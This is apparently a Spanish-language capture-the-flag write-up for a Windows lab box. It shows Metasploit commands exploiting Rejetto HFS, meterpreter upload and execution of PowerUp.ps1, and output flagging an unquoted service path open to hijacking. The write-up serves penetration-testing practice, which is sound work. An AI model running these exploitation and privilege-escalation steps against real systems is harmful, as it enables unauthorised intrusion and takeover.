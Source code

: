 ![image](https://user-images.githubusercontent.com/44788583/149647575-a38e5561-022a-4e55-ae90-5b55e97db98c.png)

Usé 1 para elegir la opción 1 que es la que tiene el exploit para Rejetto HFS
- show options para ver qué parámetros se ponen en metasploit

![image](https://user-images.githubusercontent.com/44788583/149689958-8bbac4bb-61fe-401f-8956-5712bc6c96cf.png)
![image](https://user-images.githubusercontent.com/44788583/149690590-eec86396-02c6-4439-ad46-30775459dddd.png)
Se ponen los parámetros para 
- set RHOSTS 10.10.166.61
- set RPORT 8080
- run
Ahora ya tenemos una consola de metasploit corriendo el exploit y nos vamos a la carpeta C:/Users/bill/Desktop
![image](https://user-images.githubusercontent.com/44788583/149698796-86dc3fb2-429f-46fc-bcc2-10b6c47fc817.png)
Vemos que la flag está presente
- cat user.txt
![image](https://user-images.githubusercontent.com/44788583/149699085-08ee3dac-49ea-4bec-8676-84ee16f721b5.png)

------

### Escalando privilegios

Se usa el powershell del recurso: https://github.com/PowerShellMafia/PowerSploit en específico el archivo powershell de PowerUp.ps1
Yo lo descargué entrando a mi github 
Luego en la sesión de meterpreter se utiliza el siguiente comando: 
- upload /root/PowerSploit-master/Privesc/PowerUp.ps1. (lo guardé en esa ruta de mi máquina)
![image](https://user-images.githubusercontent.com/44788583/149704673-356cd1b8-cbd3-4d20-b195-ed7dae45edba.png)
![image](https://user-images.githubusercontent.com/44788583/149704652-4d69f6d0-d24e-40e2-a174-34b9fd154e92.png)
y luego se ejecuta: 

![image](https://user-images.githubusercontent.com/44788583/149705290-5e102ecf-090c-4d3e-922d-f7a95d4318c6.png)
- load powershell
- powershell_shell
- . .\PowerUp.ps1 (es importante el espacio entre puntos)
- Invoke-AllChecks

![image](https://user-images.githubusercontent.com/44788583/149706408-6bf048cf-6698-44b4-b0b3-13e00b22501a.png)

---------

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

